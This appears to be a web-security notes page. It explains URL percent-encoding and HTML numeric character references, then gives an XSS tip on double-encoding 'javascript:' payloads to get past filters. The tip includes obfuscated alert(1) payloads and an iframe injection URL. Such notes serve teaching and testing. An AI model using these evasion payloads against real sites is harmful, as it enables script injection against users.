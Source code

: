 
## Internals

### Encoding mechanisms

**Percent-encoding (aka. URL encoding)**

Percent-encoding is a mechanism to encode 8-bit characters that have specific meaning in the context of URLs. The encoding consists of substitution: A '%' followed by the hexadecimal representation of the ASCII value of the replace character.

For example `a` translates to `%61`.

On JS the functions `encodeURI()` and `encodeURIComponent()` are used to percent-encode URLs.

Reference:
- [RFC 3986](https://datatracker.ietf.org/doc/html/rfc3986)

**HTML character reference and Numeric character reference (NCR)**

A numeric character reference in HTML refers to a character by its Universal Character Set/Unicode code point, and uses the format `&#nnnn;` or `&#xhhhh;` where nnnn is the code point in decimal form, and hhhh is the code point in hexadecimal form. The x must be lowercase in XML documents. The nnnn or hhhh may be any number of digits and may include leading zeros. The hhhh may mix uppercase and lowercase, though uppercase is the usual style.

For example `6` translates to `&#54;` or `&#x36;`.

Not all web browsers or email clients used by receivers of HTML documents, or text editors used by authors of HTML documents, will be able to render all HTML characters. Most modern software is able to display most or all of the characters for the user's language, and will draw a box or other clear indicator for characters they cannot render.

Reference:
- [Numeric character reference (NCR)](https://en.wikipedia.org/wiki/Numeric_character_reference)
- [HTML character reference](https://en.wikipedia.org/wiki/Character_encodings_in_HTML#HTML_character_references)
- [List of XML and HTML character entity references](https://en.wikipedia.org/wiki/List_of_XML_and_HTML_character_entity_references)

## XSS tips

### It is possible to encode multiple times

by: @brutelogic

In "javascript:" payloads there's a lot of room for obfuscation in the code side since it can be double encoded.

```
javascript:alert(1)
javascript:%61lert(1)                           <---- Percent-encoding:    a => %61
javascript:&#37&#54&#49lert(1)                  <---- NCR encoding:        % => &#37;    6 => &#54;    1 => &#49;
javascript:%26%2337%26%2354%26%2349lert(1)      <---- Percent-encoding:    &# => %26%23
```

Example:

```
http://localhost/?x=<iframe+src=javascript:%26%2337%26%2354%26%2349lert(1)>
```

output:

```html
<iframe src=javascript:&#37&#54&#49lert(1)>
```
